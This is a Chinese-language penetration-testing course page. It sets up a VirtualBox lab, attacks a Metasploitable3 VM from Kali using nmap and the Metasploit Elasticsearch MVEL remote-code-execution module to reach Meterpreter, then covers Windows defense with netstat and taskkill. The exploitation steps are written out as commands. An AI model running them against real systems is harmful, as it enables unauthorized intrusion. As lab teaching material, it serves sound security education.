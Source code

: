 # 攻防情境說明
![攻防情境說明](scenario.png)

- 攻擊機 Kali Linux
- 靶機 metasploitable3 

# 環境設定1:virtualbox安裝與設定
- 標準安裝virtualbox ==> 下一步下一步就裝好了
- 使用系統管理員身分啟動cmd
- 切換到VirtualBox 目錄 ==> cd C:\Program Files\Oracle\VirtualBox
- 檢視現有NAT網路 == > VBoxManage list natnetworks
- 新增NAT網路 == > VBoxManage natnetwork add --netname PT --network "10.0.2.0/24" --enable
- 再次檢視現有NAT網路 == >VBoxManage list natnetworks

![A1.png](A1.png)

# 環境設定2:
- 確認攻擊機(Kali linux)與靶機(Metasploitable3)在同一個NAT網路
![m3_2.png](m3_2.png)
- 兩台機器都可以ping 到對方 
![m3_3.png](m3_3.png)

# 攻防實戰(1):Kali linux 攻擊與滲透測試技術
- 步驟1:nmap -sV -p- 10.0.2.4
![nmap1.png](nmap1.png)
- 步驟2:啟動metasploit== > msfconsole
![metasploit_1.png](metasploit_1.png)
- 步驟3:search elastic
![metasploit_2.png](metasploit_2.png)
```
1  auxiliary/scanner/elasticsearch/indices_enum                       normal     Yes    ElasticSearch Indices Enumeration Utility
2  auxiliary/scanner/http/elasticsearch_traversal                     normal     Yes    ElasticSearch Snapshot API Directory Traversal
3  exploit/multi/elasticsearch/script_mvel_rce       2013-12-09       excellent  Yes    ElasticSearch Dynamic Script Arbitrary Java Execution
4  exploit/multi/elasticsearch/search_groovy_script  2015-02-11       excellent  Yes    ElasticSearch Search Groovy Sandbox Bypass
5  exploit/multi/misc/xdh_x_exec                     2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```

- 步驟4:use exploit/multi/elasticsearch/script_mvel_rce
![metasploit_3.png](metasploit_3.png)
- 步驟5:設定攻擊參數
  - show options
  - set RHOSTS 10.0.2.4
  - show options
![metasploit_4.png](metasploit_4.png)
- 步驟6:進行攻擊 ==> exploit 或者 run
![metasploit_5.png](metasploit_5.png)
- 步驟7:攻擊成功  
![metasploit_6.png](metasploit_6.png)
- 步驟8:進入到post-exploitation階段  ==> [Meterpreter](meterpreter.md)
![metasploit_7.png](metasploit_7.png)

# 攻防實戰(2)Windows防禦
- 網路連線偵測 ==> netstat
  - netstat指令
    - netstat -a
    - netstat -an
    - netstat -ano
    
![netstat](netstat.JPG)

- 終結 惡意網路連線 ==> 小小抱怨 : 教科書及linux 都是用`process(行程)` 微軟硬是要新創`工作(Task)` 
  - `工作`管理員(`Task` Manager)
    - [Windows 10 開啟「 工作管理員 」的11種方法](https://walker-a.com/archives/3436) 
  - [tasklist](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/tasklist):顯示目前在本機電腦或遠端電腦上正在執行的處理序清單
  - [taskkill](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill) 獵殺執行中的程式(結束一個或多個工作或處理序)
    - [微軟官方說明](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/taskkill)
    - taskkill /PID XXXX /F
      - /F 參數強制進程終止，這對於許多不想關閉的討厭任務很有用。 
- 課堂學習
  - [基本Windows技術](BasicWindows.md)



# 延伸學習
- [滲透測試](PT.md)
- [更多Kali linux 學習](Kali202304.md)
- [靶機(metasploitable3)](metasploitable3.md)
- [基本Windows技術](BasicWindows.md)
- [Windows 指令(Windows Commands)](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/windows-commands)
  - Windows/Linux常用網路指令
  - where == > 找出檔案的位置
    - 語法: WHERE [/R dir] [/Q] [/F] [/T] pattern...
    - 描述: 顯示符合搜尋模式的檔案位置。
    - 範例1: where /R C: svchost
    - 範例2: WHERE /r c:\windows *.exe *.dll *.bat
    - https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/where
 
- 後續研讀
  - [Log4J 漏洞分析與Penetration Testing](Log4J.md)
  - 滲透測試專題 Hacking Articles
    - [Penetration Testing](https://www.hackingarticles.in/penetration-testing/)
    - [Web Penetration Testing](https://www.hackingarticles.in/web-penetration-testing/)
- 更多紅藍攻防
  - Red team 滲透測試靶機
    - [Hack The Box: Hacking Training For The Best](https://www.hackthebox.com/)
    - [TryHackMe | Cyber Security Training](https://tryhackme.com/)
    - [VulnHub| Vulnerable By Design](https://www.vulnhub.com/) 
  - Blue Team
    - [LetsDefend - Blue Team Training](https://www.letsdefend.io/) 


![Mimikatz](Mimikatz.png)
